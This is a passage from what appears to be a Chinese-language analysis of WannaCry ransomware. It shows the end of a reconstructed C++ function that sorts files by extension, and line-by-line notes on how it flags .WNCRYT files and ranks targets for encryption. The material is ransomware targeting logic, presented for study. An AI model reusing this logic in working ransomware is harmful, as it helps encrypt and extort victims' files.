 ```cpp=112
			if (!_tcsicmp(lpSuffix, LowPriorityFiles[i])) {
				return FILETYPE_LOW_PRIORITY;
			}
		}
	}
	return FILETYPE_UNKNOWN;
}
```
* 第114到第117行，EXE或DLL。
* 第118到第120行，.WNCRYT暫存檔。
* 第121到第123行，.WNCRYT預處理檔。
* 第124到第126行，.WNCRYT加密檔。
* 第127到第131行，測試附檔名是否為高優先檔案。
* 第132到第136行，測試附檔名是否為低優先檔案。
* 第138行，否則回傳未知。